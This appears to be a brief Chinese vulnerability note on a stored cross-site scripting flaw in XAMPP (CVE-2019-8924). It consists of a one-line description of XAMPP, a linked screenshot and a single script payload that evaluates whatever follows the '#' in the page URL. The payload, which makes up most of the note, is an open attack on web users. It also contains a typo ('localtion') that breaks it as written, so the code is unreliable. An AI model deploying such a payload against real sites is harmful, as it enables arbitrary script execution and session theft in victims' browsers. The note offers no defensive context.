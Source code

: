 xampp 存储型XSS （CVE-2019-8924）

描述: XAMPP是一个把Apache网页服务器与PHP、Perl及MariaDB集合在一起的安装包，允许用户可以在自己的电脑上轻易的创建网页服务器。



<script>     eval(localtion.hash.substr(1)); </script>

![image-20211118210213602](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211118210213602.png)

